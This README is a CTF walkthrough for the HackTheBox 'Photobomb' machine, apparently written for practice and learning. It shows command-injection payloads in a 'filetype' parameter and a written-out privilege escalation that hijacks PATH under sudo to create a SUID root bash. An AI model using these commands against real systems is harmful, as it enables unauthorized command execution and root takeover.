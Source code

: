 # Photobomb CTF - HackTheBox Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Photobomb** CTF challenge on [HackTheBox](https://app.hackthebox.com/machines/Photobomb). 
---

we see open ports 22 and 80

![scn](imgs/scn.png "scn")

from websiter source code we see intersting file `photobomb.js` and `/printer` route 

![sc](imgs/sc.png "sc")

the /printer is protected with basic HTTP auth

![pw](imgs/pw.png "pw")

in js file wee see some credentials that might work

![js](imgs/js.png "js")

they worked and we can access /printer

![pr](imgs/pr.png "pr")

if we capture the request that is send while clicking "Download photo to print" we see 3 parameters: photo, filetype, dimensions

if we try to manipulate those parameters we can simply find that filetype paramter is vulnerable to command injection

we can use payload `png;sleep+5`, the response takes much longer than standard one, we have Blind command injection, we dont see the result (if we use `png;id`) but we know that command is being executed because the system is stalling

![ci](imgs/ci.png "ci")

![cierr](imgs/cierr.png "cierr")

we can now create the payload that will send reverse shell to us

![rs](imgs/rs.png "rs")

![pr](imgs/pr.png "pr")

we got reverse-shell access as wizard and we can grab user flag

![us](imgs/us.png "us")

we can run linpeas

![sudol](imgs/sudol.png "sudol")

from linpeas we see that we can run sudo on some script `/opt/cleanup.sh` with SETENV

we can inspect the cleanup.sh code

![cl](imgs/cl.png "cl")

we see that find command is run without absolute path so we can create our own malicious version of it 

```
$ cd /tmp
$ mkdir find && cd find
$ nano find

--
Content of the file:
cp /bin/bash /tmp/bashroot && chmod +s /tmp/bashroot
--

$ chmod +x find
```

![fi](imgs/fi.png "fi")

now we can run this command to execute our malicious script as root user to copy the /bin/bash with SUID

```
sudo PATH=/tmp/find:$PATH /opt/cleanup.sh
```

![sd](imgs/sd.png "sd")

it worked now we use `/tmp/bashroot -p` to gain root shell

we got root access and root flag

![rt](imgs/rt.png "rt")

# MACHINE PWNED

